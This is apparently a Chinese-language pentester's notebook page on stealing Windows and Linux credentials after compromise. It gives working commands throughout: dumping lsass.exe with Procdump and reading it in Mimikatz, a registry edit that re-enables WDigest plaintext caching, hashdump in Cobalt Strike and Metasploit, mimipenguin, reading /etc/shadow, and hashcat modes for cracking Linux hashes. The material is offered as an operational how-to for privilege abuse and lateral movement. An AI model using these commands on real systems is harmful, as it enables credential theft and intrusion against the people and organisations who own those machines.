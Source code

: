 Mimikatz 是一款知名的密码获取工具，用于在 Windows 系统中提取凭据（例如明文密码、哈希值、票据等）。

dumplsass是一种技术用于从Windows操作系统中转储lsass.exe进程的内存内容。
>lsass.exe是Windows本地安全权限服务系统，是微软Windows 2000及以后版本中用于处理安全验证的进程。这个进程存储了用户账号的登录密码和其他安全敏感信息。

Mimikatz 可以基于dumplsass技术从内存中提取凭据信息，并可用于执行 Pass-the-Hash（PTH）和 Pass-the-Ticket（PTT）等攻击技术，从而获取用户权限并横向移动。
利用条件：需要系统权限system/root。
>CS和MSF中一般自带基于Mimikatz的封装，使用hashdump命令。



## **获取明文或密码HASH**
微软为了防止明文密码泄露发布了补丁KB2871997，关闭了Wdigest功能。当系统为win10或2012R2以上时，默认在内存缓存中禁止保存明文密码，此时可以通过修改注册表的方式抓取明文，但需要用户重新登录后才能成功抓取。


获取计算机登录过的用户的 密码 HASH，明文。
#### **Windows**
**mimikatz(win)：**
使用CS上线后自带的一键读取：右键或使用hashdump命令。
一些命令：<https://blog.csdn.net/weixin_40412037/article/details/113348310>
高版本无法直接读明文密码：
修改注册表，强制锁屏，等待管理员重新登陆账号密码。
```
reg add HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest\ /v UseLogonCredential /t REG_DWORD /d 1
```
此时CS中就可以抓取明文密码。
^
**CS获取用户的hash：**
获取密码哈希，cs中用hashdump命令。
可能获取失败要用administrator用户。

^ 
**MSF获取用户的hash：**

获取密码哈希，msf中用hashdump命令

![image-20240613160426225](http://cdn.33129999.xyz/mk_img/image-20240613160426225.png)

后一段，3008c后是密码，可以用在线网站解密Admin123
^
**手工获取内存中hash：**
```
1、读取lsass.exe进程的内存文件
Procdump64.exe -accepteula -ma lsass.exe lsass.dmp

2、将lsass.dmp放入mimikatz目录读取hash
mimikatz.exe "sekurlsa::minidump lsass.dmp"
sekurlsa::logonPasswords full
```




^
#### **Linux**
**mimipenguin(linux)：**
明文读取，大概率失败。
```
chmod 755 ./mimipenguin.sh
./mimipenguin.sh
```
root的hash
```
cat  /etc/shadow
```


^
## **破译hash**
Windows获取了hash就可以利用，无需破译明文。
在线：
https://www.somd5.com/
https://www.cmd5.com/
跑字典：hashcat
^
Linux获取hash和加密方式，可以破译明文。
跑字典：hashcat


```
查看加密方式和密文，只有root用户才能读取它
cat /etc/shadow

将第一行root的，复制到一个单独的文本文件中linux.txt，只包含散列值。

根据加密方式进行命令

linux sha512crypt $6$, SHA512 (Unix)加密方式：
hashcat -m 1800 sha512linux.txt p.txt

linux sha256crypt $5$, SHA256 (Unix)加密方式：
hashcat -m 7400 sha256linux.txt p.txt

linux下md5crypt, MD5 (Unix), Cisco-IOS $1$ (MD5)加密方式：
hashcat -m 500 linuxmd5.txt p.txt

linux下bcrypt $2\*$, Blowfish加密方式：
hashcat -m 3200 linuxmd5.txt p.txt
```



^
## **Mimikatz获取RDP登录记录的密码**
RDP远程登录时，勾选的保存我的凭证，可以被读取
<https://blog.csdn.net/weixin_44268918/article/details/132198123?spm=1001.2014.3001.5501>


